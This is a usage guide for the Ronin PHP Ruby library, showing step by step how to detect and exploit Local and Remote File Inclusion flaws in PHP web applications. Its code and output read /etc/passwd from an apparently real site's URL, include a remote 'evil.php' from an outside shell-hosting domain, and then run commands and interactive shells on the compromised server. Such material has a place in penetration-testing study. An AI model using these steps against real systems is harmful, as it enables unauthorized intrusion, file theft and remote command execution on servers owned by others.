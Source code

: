 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


# Using Ronin PHP

The [Ronin PHP](http://ronin.rubyforge.org/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Ruby Console, we must first
install the library. To install the Ronin Web library used in this guide,
simply run the following command:

    $ sudo gem install ronin-php

To start the Ronin Ruby Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

## Local File Inclusion (LFI)

Test a URL for LFI:

    url = URI('http://www.e-builds.com/?page=Portfolio')
    url.has_lfi?
    # => true

Obtain a [Ronin::PHP::LFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

    lfi = url.first_lfi

Request a local file as a `String`:

    lfi.get('/etc/passwd')

Request a local file as a [Ronin::PHP::LFI::File](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

    lfi.include('/etc/passwd')
    # => #<Ronin::PHP::LFI::File:/etc/passwd>

## Remote File Inclusion (RFI)

Test a URL for RFI:

    url = URL('http://www.example.com/page.php?layout=default')
    url.has_rfi?
    # => true

Obtain a [Ronin::PHP::RFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

    rfi = url.first_rfi

Including a remote PHP file:

    rfi.include('http://www.shells4you.com/evil.php')

Using the Ronin PHP Remote Procedure Call (RPC) server:

    client = rfi.rpc

Using the PHP Console service to call PHP functions:

    php = client.console

    php.phpversion
    # => "4.3.10"

    php.php_uname('-m')
    # => "i686"

Using the PHP Shell service for quick command execution:

    shell = client.shell

    shell.cwd
    # => "/var/www/site/\n"

    shell.cd '..'
    # => ""

    shell.exec('date -u')
    # => "Thu Aug 21 10:29:38 UTC 2008\n"

    shell.system('ps')
    #    PID TTY          TIME CMD
    #  27042 pts/8    00:00:00 bash
    #  27841 pts/8    00:00:00 ps
    # => nil

Using the Interactive Shell for the PHP-RPC Console service:

    php.interact
    # >> phpversion();
    # => "4.3.0"
    # >> explode('|', 'one|two|three');
    # => Array(
    #   "one",
    #   "two",
    #   "three"
    # )
    # >> exit
    # => nil

Using the Interactive Shell for the PHP-RPC Shell service:

    shell.interact
    # $ pwd
    # /var/www/site/
    # $ cd ..
    # $ ls -la
    # ...
    # $ exit
    # => nil

